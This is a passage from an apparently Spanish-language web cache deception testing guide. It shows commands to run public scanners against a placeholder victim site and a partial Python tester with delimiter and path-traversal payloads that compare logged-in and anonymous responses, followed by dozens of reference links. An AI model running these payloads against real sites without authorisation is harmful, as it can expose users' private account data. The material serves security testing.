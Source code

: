 ```bash
git clone https://github.com/Rhynorater/CacheSniper.git
cd CacheSniper

# Análisis básico
python3 cachesniper.py -u https://victima.com -e /sensitive-endpoint

# Análisis con delimitadores customizados
python3 cachesniper.py -u https://victima.com -d "@,:,;,#,%2f" -e /api/user
```

### Web-Cache-Vulnerability-Scanner

```bash
git clone https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner.git

# Escaneo automatizado con metodología avanzada
python3 wcvs.py -u https://victima.com --wcd --extensive
```

### Script Python Avanzado

```python
#!/usr/bin/env python3
import requests
import time
import random
from urllib.parse import urljoin

class AdvancedWCDTester:
    def __init__(self, target_url, session_cookie=None):
        self.target_url = target_url.rstrip('/')
        self.session = requests.Session()
    
        if session_cookie:
            self.session.cookies.update(session_cookie)
    
        # Extensiones de alta probabilidad basadas en research 2024
        self.extensions = [
            'css', 'js', 'png', 'jpg', 'gif', 'svg', 'txt', 'json', 'xml',
            'woff', 'ico', 'pdf', 'webp', 'woff2', 'eot', 'ttf'
        ]
    
        # Delimitadores para confusion attacks
        self.delimiters = ['@', ':', ';', '#', '%2f', '%3b', '%40']
    
        # Path traversal payloads
        self.traversals = ['..%2f', '%2e%2e%2f', '%2e%2e/', '../']
    
    def test_basic_wcd(self, endpoint):
        """Test básico con extensiones static"""
        results = []
    
        for ext in self.extensions:
            test_url = f"{self.target_url}{endpoint}/fake.{ext}"
        
            # Request con autenticación
            auth_resp = self.session.get(test_url)
            time.sleep(1)
        
            # Request sin autenticación
            anon_resp = requests.get(test_url)
        
            if self.is_potential_wcd(auth_resp, anon_resp):
                results.append({
```

[^1]: https://es-la.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^2]: https://www.technologydecisions.com.au/content/information-technology-professionals-association/article/wcd-attacks-still-a-significant-issue-620111008
[^3]: https://seclab.nu/static/publications/sec2020wcd.pdf
[^4]: https://air.unimi.it/retrieve/7df93d97-538a-4df6-9355-7625561e0416/CLOSER_2024_36_CR%20(1).pdf
[^5]: https://www.vaadata.com/blog/web-cache-poisoning-attacks-and-security-best-practices/
[^6]: https://www.scitepress.org/Papers/2024/126920/126920.pdf
[^7]: https://portswigger.net/web-security/web-cache-deception
[^8]: https://siunam321.github.io/ctf/portswigger-labs/Web-Cache-Deception/WCD-4/
[^9]: https://gbhackers.com/new-cache-deception-attack-exploits/
[^10]: https://developers.cloudflare.com/cache/cache-security/cache-deception-armor/
[^11]: https://www.websecuritylens.org/tag/difference-between-web-cache-deception-and-web-cache-poison/
[^12]: https://www.cloudrangecyber.com/news/real-world-cybersecurity-breaches-caused-by-vulnerable-apis
[^13]: https://www.jianjunchen.com/p/web-cache-posioning.CCS24.pdf
[^14]: https://swisskyrepo.github.io/PayloadsAllTheThings/Web Cache Deception/
[^15]: https://birchwoodu.org/top-10-real-world-case-studies-on-cyber-security-incidents/
[^16]: https://curiosidadesdehackers.com/web-cache-deception/
[^17]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^18]: https://developers.cloudflare.com/cache/cache-security/avoid-web-poisoning/
[^19]: https://owasp.org/www-project-top-10-ci-cd-security-risks/
[^20]: https://portswigger.net/research/gotta-cache-em-all
[^21]: https://portswigger.net/research/top-10-web-hacking-techniques-of-2024
[^22]: https://www.secopsolution.com/blog/10-most-uncommon-vulnerabilities-in-web-applications
[^23]: https://www.clear-gate.com/blog/web-cache-poisoning-deception/
[^24]: https://www.youtube.com/watch?v=39RdU8qYNCk
[^25]: https://www.sisainfosec.com/blogs/5-most-common-application-vulnerabilities-and-how-to-mitigate-them/
[^26]: https://github.com/resources/whitepapers/actions
[^27]: https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/web-cache-deception/
[^28]: https://www.cobalt.io/blog/web-cache-deception-what-it-is-and-how-to-test-for-it
[^29]: https://journals.mmupress.com/index.php/jiwe/article/view/1062
[^30]: https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception
[^31]: https://jignect.tech/top-ci-cd-tools-every-qa-automation-engineer-should-know/
[^32]: https://infosecwriteups.com/mastering-web-cache-deception-vulnerabilities-an-advanced-bug-hunters-guide-b7b500b482e3
[^33]: https://www.youtube.com/watch?v=O6lr-LKhEwI
[^34]: https://infosecuritycompliance.com/open-ai-web-cache-deception-vulnerability/
[^35]: https://hackerone.com/reports/1391635
[^36]: https://github.com/topics/automation-tools
[^37]: https://codesealer.com/blog/web-cache-deception-attacks
[^38]: https://github.com/f-min/WCD_prober
[^39]: https://www.usenix.org/system/files/sec22-mirheidari.pdf
[^40]: https://pt-br.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^41]: https://spectralops.io/blog/top-10-ci-cd-automation-tools/
[^42]: https://stackoverflow.com/questions/64373470/best-practice-for-xss-attacks-in-rest-api
[^43]: https://stackoverflow.com/questions/2965746/how-do-you-prevent-brute-force-attacks-on-restful-data-services
[^44]: https://www.scribd.com/document/845952260/A-Methodology-for-Web-Cache-Deception-Vulnerability-Discovery
[^45]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization
[^46]: https://www.youtube.com/watch?v=-cwRNObMpVg
[^47]: https://www.vaadata.com/blog/how-to-strengthen-the-security-of-your-apis-to-counter-the-most-common-attacks/
[^48]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization
[^49]: https://www.nohat.it/slides/2024/minetti.pdf
[^50]: https://hackread.com/rising-threat-of-api-attacks-how-to-secure-apis-2025/
[^51]: https://www.youtube.com/watch?v=e4655fU7yAQ
[^52]: https://danaepp.com/3-ways-to-use-common-attack-patterns-to-abuse-an-api